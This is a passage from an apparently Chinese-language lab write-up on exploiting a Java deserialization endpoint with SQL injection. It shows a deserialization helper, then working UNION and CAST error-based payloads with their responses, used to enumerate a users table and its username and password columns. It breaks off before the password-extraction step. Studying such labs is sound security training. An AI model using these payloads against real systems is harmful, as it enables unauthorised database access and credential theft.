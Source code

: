 ```
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            [@SuppressWarnings](http://twitter.com/SuppressWarnings)("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```

在创建有效负载时，我们必须意识到，语法正确的查询不会反映响应中的细节，相反，我们会得到一个类强制转换异常。所以 sql 异常是第一个异常，类转换异常在下一个异常中。例如，当我们使用 id 作为 123 时，响应将是

```
<p class=is-warning>java.lang.ClassCastException: class data.productcatalog.ProductTemplate cannot be cast to class data.session.token.AccessTokenUser (data.productcatalog.ProductTemplate and data.session.token.AccessTokenUser are in unnamed module of loader &apos;app&apos;)</p>
```

但是，如果我们的查询不正确，那么它将不会执行，我们将无法枚举数据库表和其中的数据。我们将在 sql 查询中把一个带有字符串值的列转换成一个整数，让它产生错误并把这个值(列值)反映在响应中。

**列数**

但是首先，我们将使用 union query 首先找出 products 表中的列数。使用 union 有效负载`"' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from information_schema.tables --"`增加 NULL 的数量来查找列的数量，结果是 8。

**查找表名**

有效载荷— `java Main "' UNION SELECT NULL,NULL,NULL,NULL,CAST(table_name AS numeric),null,null,null from information_schema.tables -- "`

响应`<p class=is-warning>org.apache.commons.lang3.SerializationException: java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;**users**&quot;</p>` 中的错误将表名显示为用户

**列名**

有效载荷 1 — `' UNION SELECT NULL,NULL,NULL,NULL,CAST(column_name AS numeric),null,null,null from information_schema.columns where table_name = 'users' --`

响应 1 中的错误— `<p class=is-warning>org.apache.commons.lang3.SerializationException: java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;**username**&quot;</p>`

有效载荷 2 — `'UNION SELECT NULL,NULL,NULL,NULL,CAST(column_name AS numeric),null,null,null from information_schema.columns where table_name = 'users' and column_name !='username'--`

响应 2 中的错误— `<p class=is-warning>org.apache.commons.lang3.SerializationException: java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;**password**&quot;</p>`

现在我们知道了表名和列名，我们可以提取用户 administrator 的密码。

**提取管理员密码**
